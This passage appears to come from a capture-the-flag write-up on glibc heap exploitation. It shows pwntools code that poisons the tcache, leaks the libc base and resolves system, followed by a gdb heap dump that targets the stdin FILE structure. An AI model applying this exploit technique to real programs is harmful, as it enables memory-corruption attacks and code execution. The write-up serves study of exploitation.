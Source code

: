 ```sh
```

Since fd of our tcache is overwritten with bss libc pointer , we can get allocation on bss by calling malloc twice from now and subsequently leak libc.

```sh

    add(0x400,p64(0x60))
    add(0x400,p8(0x60))
    #Libc
    reu("You throw the worksheet '")
    libc_base = u64(re(6) + '\x00'*2) - 0x1e4a60
    log.info("libc = " + hex(libc_base))
    system = libc_base + LIBC.symbols['system']

```

Let's see where all this has got us.

```sh

0x405000:	0x0000000000000000	0x0000000000000251
0x405010:	0x0000000000000000	0x0000000000000000
0x405020:	0x0000000000000000	0x0000000000000000
0x405030:	0x0000000000000000	0x0000000000000000
0x405040:	0x0000000000000000	0xfe00000000000000
0x405050:	0x0000000000000000	0x0000000000000000
0x405060:	0x0000000000000000	0x0000000000000000
0x405070:	0x0000000000000000	0x0000000000000000
0x405080:	0x0000000000000000	0x0000000000000000
0x405090:	0x0000000000000000	0x0000000000000000
0x4050a0:	0x0000000000000000	0x0000000000000000
0x4050b0:	0x0000000000000000	0x0000000000000000
0x4050c0:	0x0000000000000000	0x0000000000000000
0x4050d0:	0x0000000000000000	0x0000000000000000
0x4050e0:	0x0000000000000000	0x0000000000000000
0x4050f0:	0x0000000000000000	0x0000000000000000
0x405100:	0x0000000000000000	0x0000000000000000
0x405110:	0x0000000000000000	0x0000000000000000
0x405120:	0x0000000000000000	0x0000000000000000
0x405130:	0x0000000000000000	0x0000000000000000
gdb-peda$ 
0x405140:	0x0000000000000000	0x0000000000405da0
0x405150:	0x0000000000405780	0x0000000000404030
0x405160:	0x0000000000000000	0x0000000000000000
0x405170:	0x0000000000000000	0x0000000000000000
0x405180:	0x0000000000000000	0x0000000000000000
0x405190:	0x0000000000000000	0x0000000000000000
0x4051a0:	0x0000000000000000	0x0000000000000000
0x4051b0:	0x0000000000000000	0x0000000000000000
0x4051c0:	0x0000000000000000	0x0000000000000000
0x4051d0:	0x0000000000000000	0x0000000000000000
0x4051e0:	0x0000000000000000	0x0000000000000000
0x4051f0:	0x0000000000000000	0x0000000000000000
0x405200:	0x0000000000000000	0x0000000000000000
0x405210:	0x0000000000000000	0x0000000000000000
0x405220:	0x0000000000000000	0x0000000000000000
0x405230:	0x0000000000000000	0x0000000000000000
0x405240:	0x0000000000000000	0x00007f1f747c1a00 -> There u go , we unlinked our stdin file structure , next allocation should return our file structure.

```
